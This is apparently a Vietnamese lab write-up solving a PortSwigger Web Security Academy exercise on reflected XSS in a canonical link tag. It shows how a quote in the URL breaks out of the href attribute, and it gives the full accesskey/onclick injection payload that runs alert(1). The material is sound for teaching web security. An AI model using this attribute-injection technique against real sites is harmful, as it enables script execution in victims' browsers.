




# Lab: Reflected XSS in canonical link tag

## Mô tả lab

Bài lab này thuộc nhóm lỗi Reflected XSS. Mục tiêu của lab là thực hiện XSS trên URL bằng cách inject một attribute có thể gọi hàm:

```javascript
alert(1)
```

## Các bước thực hiện

## Phân tích canonical link

Truy cập trang chủ của lab. Trang blog lần này không có ô search.



Trong source HTML, ta thấy thẻ canonical link:

```html
<link rel="canonical" href='https://0a4a003d047ea1d8814cd9e60005004c.web-security-academy.net/'/>
```

Ta thấy giá trị `href` được đặt trong single quote:

```html
href='...'
```

Nếu input được phản hồi vào URL, ta có thể thử dùng dấu `'` để thoát khỏi attribute hiện tại.

## Kiểm tra phản hồi input trong URL

Vì trang không có search bar, ta thử thêm một query string bất kỳ vào cuối URL.

Ví dụ:

```text
https://0a2500e104b1461580ab03b9003500b0.web-security-academy.net/?frog
```

Sau khi reload trang, giao diện không thay đổi. Tuy nhiên, check source code ta thấy chuỗi này xuất hiện trong canonical link.


Điều này cho thấy URL hiện tại được phản hồi vào attribute `href` của thẻ canonical.

Tiếp theo, thử thêm dấu single quote `'` và thử inject một attribute mới như `onclick`.

```text
'frog'onclick='alert(1)
```



Như vậy, ta đã inject thành công.

## Sử dụng accesskey

HTML có attribute `accesskey`, dùng để gán phím tắt cho một element.

Trong lab này, đề bài cho biết simulated user sẽ bấm một trong các tổ hợp phím liên quan tới phím `x`, vì vậy ta có thể inject:

```html
accesskey='x'
```

## Payload

```text
https://0a2500e104b1461580ab03b9003500b0.web-security-academy.net/?'frog'accesskey='x'onclick='alert(1)
```



Lab solved.


